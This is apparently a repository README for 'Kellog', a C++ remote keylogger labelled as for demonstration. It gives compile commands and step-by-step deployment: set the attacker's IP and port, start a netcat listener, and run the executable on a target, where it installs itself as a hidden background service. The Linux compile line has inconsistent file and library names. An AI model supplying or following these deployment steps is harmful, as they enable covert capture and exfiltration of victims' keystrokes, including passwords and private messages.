 # Kellog
This is a remote keylogger coded in C++, used for demonstration purposes

# Please Note:
Kellog.exe needs to run with admin privileges

# TO COMPILE:

# LINUX
i686-w64-mingw32-g++ -static-libstdc++ -static-libgcc -o kellog.exe Kellog.c -lsw2_32 -DUNICODE

# WINDOWS
g++ -o kellog.exe kellog.cpp -lws2_32 -DUNICODE

# HOW TO USE
1) First modify your IP and Port in the Kellog.cpp file
2) Compile
3) start your reverse netcat listener with nc -lvnp 1234
4) deploy Kellog.exe and run it
  - it should automatically run as a background service called "kellog"
